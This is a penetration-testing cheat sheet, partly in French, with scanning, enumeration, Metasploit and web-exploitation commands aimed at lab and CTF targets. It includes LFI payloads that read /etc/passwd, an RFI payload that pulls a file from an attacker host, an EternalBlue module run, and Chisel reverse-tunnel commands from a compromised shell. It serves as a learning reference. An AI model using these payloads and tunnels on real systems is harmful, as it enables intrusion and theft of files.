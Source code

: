 ## Basic Tools

| **Command**   | **Description**   |

| **Vim** |
	| `vim file` | vim: open file with vim |
	| `esc+i` | vim: enter `insert` mode |
	| `esc` | vim: back to `normal` mode |
	| `x` | vim: Cut character |
	| `dw` | vim: Cut word |
	| `dd` | vim: Cut full line |
	| `yw` | vim: Copy word |
	| `yy` | vim: Copy full line |
	| `p` | vim: Paste |
	| `:1` | vim: Go to line number 1. |
	| `:w` | vim: Write the file 'i.e. save' |
	| `:q` | vim: Quit |
	| `:q!` | vim: Quit without saving |
	| `:wq` | vim: Write and quit |

# Active Reconnaissance Service Scanning
```
nmap -Pn -A -sC -p- 10.129.42.253
```
## _display ssl ports only_
```
nmap -p 31000-32000 -sV --open -v localhost | grep -E '^[0-9]+/tcp.*ssl/.*$'
```
	| `locate scripts/citrix` | List various available nmap scripts |
	| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap smb script on an IP |
	| `nmap -sV --script=http-enum -oA name_file 10.129.42.190` | enumerate common web application directories |
	| `nc -nv 10.129.42.190 22` | Get the banner |
	| `netcat 10.10.10.10 22` | Grab banner of an open port |
	| `openssl s_client -connect localhost:30001` | Connect to remote host by ssl protocole
	| `crackmapexec smb 10.129.228.239 -u user -p 'PASS' --shares` | enumerate smb shares |

# **Passive Reconnaissance** |
	| `whois <address>` | général info |
# Web Enumeration
#gobuster_cmd
```
gobuster dir  -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://@IP/
```
## php web server
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/Common-PHP-Filenames.txt -u http://challenge01.root-me.org/web-serveur/ch11/
```
##
	| `enum4linux @IP` | scan website |

	| `ffuf -w /usr/share/wordlists/dirb/big.txt -u http://thm/FUZZ` | same thing |
	| `dirsearch -u @HOST` | directory scan |
	| `curl -IL https://www.inlanefreight.com` | Grab website banner |
	| `whatweb 10.10.10.121` | List details about the webserver/certificates |
	| `curl <address> -v` | View http header |
	| `curl <address/sitemap.xml>` | vew directory referenced for search engine |
	| `curl -X POST -d "param1=value1&param2=value2" https://example.com/api` | |
## backup files #backupFiles
### metasploit
`msf6 > use auxiliary/scanner/http/backup_file`
On définit le host à scanner :
`msf6 auxiliary(scanner/http/backup_file) > set rhosts challenge01.root-me.org`
Ainsi que le path :
`msf6 auxiliary(scanner/http/backup_file) > set path web-serveur/ch11/index.php`
Enfin on lance le scan :
`msf6 auxiliary(scanner/http/backup_file) > run`
# DNS Enumeration
```
gobuster dns -d inlanefreight.com -w /usr/share/seclists/Discovery/DNS/namelist.txt
```
	| `host -t ns -p54011 adresse` | Display domain master and subdns |
	| `dig -t ns @<address>` | same thing |
	| `dig @1.1.1.1 tryhackme.com MX` |  |
	| `nslookup -type=A adresse 1.1.1.1` | |
	| `dnsenum axfr <subdomain> @<domain>` | zone transfer |
	| `use DNSDumpster.com or shodan.io`

# Subdomaine enumeration 
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 --append-domain -u http://adresse/
```
## _online enumeration_
```
sublist3r -d domaine_name -b /usr/lib/python3/dist-packages/subbrute/names.txt
```

|
# Amazone s3 buckets interact with awscli
	| `aws configure` | |
	| `aws --endpoint=http://s3.domaine_name s3 ls s3://domaine_name` | list s3 bucket container |
|

|
# Public Exploits
Rechercher un exploit sur l'application et les services hébergé
	| `searchsploit openssh 7.2` | Search for public exploits for a web application |
	| `msfconsole` | MSF: Start the Metasploit Framework |
	| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
	| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
	| `show options` | MSF: Show required options for an MSF module |
	| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
	| `check` | MSF: Test if the target server is vulnerable |
	| `exploit` | MSF: Run the exploit on the target server is vulnerable |
|
# Web Exploits
#Exploit_LFI/RFI
## LFI
LFI (Local File Inclusion) est une vulnérabilité de sécurité informatique qui permet à un attaquant d'inclure des fichiers locaux sur un serveur distant.
```
http://adresse/?page=../etc/passwd
```
```
http://adresse/?page=C:/WINDOWS/System32/drivers/etc/hosts
```

## RFI
RFI (Remote File Inclusion) est une vulnérabilité de sécurité informatique similaire à la LFI, mais qui permet à un attaquant d'inclure des fichiers distants à partir d'un serveur malveillant sur un serveur distant.
```
http://remote@IP/?page=//@ip_hacker/somefile
```

# foothold exploit
## Partage des ports sur ma machine
On utilise *Chisel* https://github.com/jpillora/chisel/releases/tag/v1.9.1
### creation du serveur proxi sur ma machine
└─# 
```
./chisel server -p 8000 --reverse
```

www-data@only4you:/tmp$
```
./chisel client 10.10.17.161:8000 R:127.0.0.1:3000 R:127.0.0.1:8001
